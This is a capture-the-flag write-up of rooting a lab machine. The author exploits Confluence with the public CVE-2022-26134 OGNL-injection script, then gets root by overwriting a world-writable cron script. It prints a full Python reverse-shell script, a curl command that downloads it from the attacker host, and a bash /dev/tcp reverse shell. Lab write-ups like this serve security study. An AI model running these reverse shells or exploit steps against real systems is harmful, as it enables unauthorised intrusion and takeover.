

# Flu f.k.a. CTF-200-08 (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nmap -v -Pn -p- -T4 ctf200
...

PORT     STATE SERVICE
22/tcp   open  ssh
8090/tcp open  opsmessaging
8091/tcp open  jamlink
```

Initial udp port scan:

```                                                                                                                                                                                          
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ sudo nmap -v -sU -T4 --top-ports 100 ctf200
   (... came back with no results ...)
```

More thorough TCP scan on the ports we found:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nmap -v -Pn -p 22,8090,8091 -A ctf200 
...

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
|_  256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
8090/tcp open  opsmessaging?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 302 
|     Cache-Control: no-store
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     X-Confluence-Request-Time: 1710053155526
|     Set-Cookie: JSESSIONID=41E1548E051749CC0298C1A45EEEB3AA; Path=/; HttpOnly
|     X-XSS-Protection: 1; mode=block
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     Content-Security-Policy: frame-ancestors 'self'
|     Location: http://localhost:8090/login.action?os_destination=%2Findex.action&permissionViolation=true
|     Content-Type: text/html;charset=UTF-8
|     Content-Length: 0
|     Date: Sun, 10 Mar 2024 06:45:55 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 200 
|     MS-Author-Via: DAV
|     Content-Type: text/html;charset=UTF-8
|     Content-Length: 0
|     Date: Sun, 10 Mar 2024 06:45:55 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1924
|     Date: Sun, 10 Mar 2024 06:45:55 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol [RTSP&#47;1.00x0d0x0a0x0d0x0a...]</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid
8091/tcp open  jamlink?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sun, 10 Mar 2024 06:46:31 GMT
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sun, 10 Mar 2024 06:46:00 GMT
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sun, 10 Mar 2024 06:46:00 GMT
|     Connection: Close
|     content-length: 0
|   Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 414 Request-URI Too Long
|     text is empty (possibly HTTP/0.9)
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sun, 10 Mar 2024 06:46:00 GMT
|     Connection: Keep-Alive
|     content-length: 0
|   SIPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sun, 10 Mar 2024 06:46:36 GMT
|     Connection: Keep-Alive
|_    content-length: 0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have two http servers... One seems to be a Confluence product and the other an "Aleph 0.4.6" server.

Checking out the http server on port 8090:



Note the information at the bottom "Powered by Atlassian Confluence 7.13.6".

I try admin:admin and other such credentials with no luck. I google for default admin credentials in confluence products and seems there are none.

We find some hits in exploit-db for confluence products.

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ searchsploit confluence 7.
--------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                               |  Path
--------------------------------------------------------------------------------------------- ---------------------------------
AppFusions Doxygen for Atlassian Confluence 1.3.2 - Cross-Site Scripting                     | java/webapps/40817.txt
Atlassian Confluence 7.12.2 - Pre-Authorization Arbitrary File Read                          | java/webapps/50377.txt
Confluence Data Center 7.18.0 - Remote Code Execution (RCE)                                  | java/webapps/50952.py
Confluence Server 7.12.4 - 'OGNL injection' Remote Code Execution (RCE) (Unauthenticated)    | java/webapps/50243.py
--------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

The "Confluence Data Center 7.18.0 - Remote Code Execution (RCE)" looks promising, but unsure if this is the right product. I look at the code to learn more. From the code we learn that this affects "all versions < 7.4.17 versions before 7.18.1". Hard to tell if the author meant between 7.4.17 and 7.18.1 or any under 7.4.17. Also still unsure of whether the login form we found is the "confluence data center" product or not.

We already have the code so we give it a try:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // uid=1001(confluence) gid=1001(confluence) groups=1001(confluence) 

[!] Saving the output result in: exploit_result.txt
```

Seems like it worked! So we move on to set up a reverse shell. I write my shell in a file in Kali:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ cat rshell.py
#!/usr/bin/env python3

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.45.172",8090))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

I chose to specifically use `python3` because `which python3` came back with results and `which python` did not when testing on the exploit script:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'which python'           
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // 

[!] Saving the output result in: exploit_result.txt
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'which python3'
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // /usr/bin/python3 

[!] Saving the output result in: exploit_result.txt
```

> Note: I originally used a different port for the reverse shell and that didn't work, so I eventually went with port 8090 (more on this below).

I serve my python script over http on port 8090. I tried other ports but it seems there are some firewall rules for egress from the remote machine ports 80 and 443 didn't work.

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
192.168.176.41 - - [10/Mar/2024 09:36:27] "GET /rshell.py HTTP/1.1" 200 -
^C
```

I download it by using the exploit script and verify the contents

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'curl -o /tmp/rshell.py http://192.168.45.172:8090/rshell.py'
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // 

[!] Saving the output result in: exploit_result.txt
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'cat /tmp/rshell.py'                                         
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // #!/usr/bin/env python3  import socket import subprocess import os  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) s.connect(("192.168.45.172",8090))  os.dup2(s.fileno(),0) os.dup2(s.fileno(),1) os.dup2(s.fileno(),2)  p=subprocess.call(["/bin/sh","-i"]) 

[!] Saving the output result in: exploit_result.txt
```

I set up a local listener to catch the reverse shell (again, on port 8090 because we know that works):

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nc -lnvp 8090
listening on [any] 8090 ...
```

I run the python reverse shell script on the remote machine using the exploit script:
                                
```                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'python3 /tmp/rshell.py'
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // 

[!] Saving the output result in: exploit_result.txt
```

And we get a shell:

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nc -lnvp 8090
listening on [any] 8090 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.41] 48320
/bin/sh: 0: can't access tty; job control turned off
$ whoami
confluence
```

We get a proper shell and go find our first flag (where it usually is):

```
confluence@flu:/opt/atlassian/confluence/bin$ cd /home/confluence
cd /home/confluence
confluence@flu:/home/confluence$ cat local.txt
cat local.txt
402b5b8ff7c7e2f14f05985166fe4739
```

## Privilege Escalation

We run the usual commands `sudo -l`, `cat /etc/passwd`, `cat /etc/crontab`, check for SUID/GUID binaries and so on...

We run LinPEAS to ensure we didn't miss anything. LinPEAS also doesn't raise anything.

We run pspy. I donwload it from the internet to `/tmp/pspy` with `wget`, allow executing it `chmod +x /tmp/pspy`, and run it with `/tmp/pspy`...

Some interesting processes running as root... using something in the `/opt/` dir... that is promising:

```
2024/03/10 16:52:01 CMD: UID=0     PID=2351   | /bin/sh -c /opt/log-backup.sh 
2024/03/10 16:52:01 CMD: UID=0     PID=2353   | /bin/bash /opt/log-backup.sh 
```

The script doesn't do anything interesting...

```
$ cat log-backup.sh
#!/bin/bash

CONFLUENCE_HOME="/opt/atlassian/confluence/"
LOG_DIR="$CONFLUENCE_HOME/logs"
BACKUP_DIR="/root/backup"
TIMESTAMP=$(date "+%Y%m%d%H%M%S")

# Create a backup of log files
cp -r $LOG_DIR $BACKUP_DIR/log_backup_$TIMESTAMP

tar -czf $BACKUP_DIR/log_backup_$TIMESTAMP.tar.gz $BACKUP_DIR/log_backup_$TIMESTAMP

# Cleanup old backups
find $BACKUP_DIR -name "log_backup_*"  -mmin +5 -exec rm -rf {} \;
```

But we can write to it and make it interesting!

```
$ ls -la
total 756692
drwxr-xr-x  3 root       root            4096 Dec 12 11:01 .
drwxr-xr-x 19 root       root            4096 Dec 12 09:45 ..
drwxr-xr-x  3 root       root            4096 Dec 12 10:13 atlassian
-rwxr-xr-x  1 root       root       774829955 Dec 12 10:05 atlassian-confluence-7.13.6-x64.bin
-rwxr-xr-x  1 confluence confluence       408 Dec 12 11:01 log-backup.sh
```

I write the file line by line and exit the session.

```
confluence@flu:/opt$ echo '#!/bin/bash' > log-backup.sh
echo '#!/bin/bash' > log-backup.sh
confluence@flu:/opt$ echo 'bash -i >& /dev/tcp/192.168.45.172/8090 0>&1' >> log-backup.sh
</dev/tcp/192.168.45.172/8090 0>&1' >> log-backup.sh
confluence@flu:/opt$ cat log-backup.sh
cat log-backup.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.172/8090 0>&1
confluence@flu:/opt$ ^C
```

I restart my local listener on the same port again and wait...

Pretty quickly we get a shell as `root`!

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nc -lnvp 8090
listening on [any] 8090 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.41] 53816
bash: cannot set terminal process group (25622): Inappropriate ioctl for device
bash: no job control in this shell
root@flu:~# whoami
whoami
root
```

And we find our flag where we expect to find it:

```
root@flu:~# cat /root/proof.txt
cat /root/proof.txt
4896befc9ccc8543b8a8c523857e897d
```

Look at that! We didn't even need to ever figure out what was running on port 8091!
